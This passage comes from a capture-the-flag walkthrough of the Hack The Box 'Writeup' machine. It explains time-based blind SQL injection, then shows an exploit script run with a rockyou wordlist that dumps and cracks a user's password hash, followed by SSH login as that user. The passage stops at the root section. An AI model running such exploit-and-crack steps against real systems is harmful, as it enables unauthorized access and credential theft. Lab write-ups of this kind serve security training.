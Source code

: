 <blockquote> <i>The attacker may also be interested to extract some information or at least verify a few assumptions. ... this can be done by integrating the time delay inside a conditional statement</i>. </blockquote>

<p>By capturing the <code>elapsed_time</code> while executing the payload we can determine the right first character when the query takes <code>TIME</code> more time. Once successful, the loop stores that character and moves on to the next - repeating the process until no further characters trigger the sleep function, letting us know we have the full value.</p>

<p>Alright enough theory - let's run the exploit and hope for the best.</p>

{% highlight shell %}
python 46635.py -u http://10.10.10.138/writeup --crack --wordlist /root/Desktop/rockyou.txt 

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
{% endhighlight %}

<p>Bingo, user creds! So here is a proud facepalm moment. Prior to above run, I ran the exploit without <code>--crack</code> or <code>--wordlist</code> and got the same output as above without the password cracked output. In my momentary ignorance I completely ignored that this even looked like a hash, took that line of output verbatim and actually thought this was the password. As you can see below clearly that did not get me far.</p>

<p align="center">
<img src="{{ '/assets/htb-writeup/post-exploit1.PNG' | relative_url }}">
</p>

<p>Thankfully I quickly realized my error and ran the cracked variant. Just like that we have user access through SSH.</p>

{% highlight shell %}
ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ pwd
/home/jkr
jkr@writeup:~$ ls
user.txt
jkr@writeup:~$ cat user.txt 
d4e493*******************
jkr@writeup:~$ 
{% endhighlight %}

<h1>Root exploitation</h1>
